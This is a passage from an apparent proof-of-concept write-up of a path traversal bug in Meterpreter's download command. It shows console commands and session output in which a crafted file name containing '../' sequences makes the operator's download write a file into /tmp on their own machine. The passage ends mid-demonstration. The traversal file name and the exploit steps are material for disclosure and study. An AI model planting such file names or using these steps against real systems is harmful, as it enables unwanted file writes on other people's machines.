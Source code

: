 Go ahead and create this:

```text
C:\Users\Justin>mkdir Desktop\tasty_loot

C:\Users\Justin>echo >> Desktop\tasty_loot\..Z..Z..Z..Z..Z..Z..Z..Z..Z..ZtmpZdoot.txt

C:\Users\Justin>mkdir \tmp

C:\Users\Justin>echo doot doot >> \tmp\doot.txt

C:\Users\Justin>
```

7\. Trigger the bug

Before triggering the bug, the file doesn't exist on the victim's machine:

```text
msf exploit(handler) > cat /tmp/doot.txt
[*] exec: cat /tmp/doot.txt

cat: /tmp/doot.txt: No such file or directory
```

If we were to take a look at the contents of `tasty_loot` via the Meterpreter
session (using the Meterpreter command `ls`) it would look quite strange:

```text
msf exploit(handler) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > ls C:/Users/Justin/Desktop/tasty_loot
Listing: C:/Users/Justin/Desktop/tasty_loot
===========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  12    fil   2016-12-29 22:00:39 +1000  ../../../../../../../../../../tmp/doot.txt

meterpreter >
```

Trigger the bug by downloading the attacker's `tasty_loot` directory to
anywhere on the victim's filesystem:

```text
meterpreter > download C:/Users/Justin/Desktop/tasty_loot /home/justin/looted_tasty_loot
[*] downloading: C:/Users/Justin/Desktop/tasty_loot\../../../../../../../../../../tmp/doot.txt -> /home/justin/looted_tasty_loot/../../../../../../../../../../tmp/doot.txt
[*] download   : C:/Users/Justin/Desktop/tasty_loot\../../../../../../../../../../tmp/doot.txt -> /home/justin/looted_tasty_loot/../../../../../../../../../../tmp/doot.txt

meterpreter >
```

The file now exists in `/tmp/`:
